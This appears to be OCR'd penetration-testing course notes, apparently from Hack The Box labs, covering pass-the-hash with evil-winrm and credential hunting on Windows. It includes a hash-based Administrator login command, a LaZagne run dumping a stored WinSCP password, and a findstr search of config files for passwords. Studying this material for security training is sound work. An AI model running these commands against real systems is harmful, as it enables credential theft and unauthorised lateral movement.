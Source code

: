 `What if we are unsuccessful in cracking a hash?`
## Pass-the-Hash Considerations
#### Pass-the-Hash with Evil-WinRM Example
```shell-session
AhmaDb0x@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
We can attempt to use this attack when needing to move laterally across a network after the initial compromise of a target.




# Credential Hunting in Windows


| Passwords     | Passphrases  | Keys        |
| ------------- | ------------ | ----------- |
| Username      | User account | Creds       |
| Users         | Passkeys     | Passphrases |
| configuration | dbcredential | dbpassword  |
| pwd           | Login        | Credentials |
## Search Tools
`Windows Search`
https://github.com/AlessandroZ/LaZagne
#### Running Lazagne All
```cmd-session
C:\Users\bob\Desktop> start lazagne.exe all
```
```cmd-session

########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```
#### Using findstr
```cmd-session
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

`If we land on a Windows Server OS, we may use a different approach than if we land on a Windows Desktop OS`
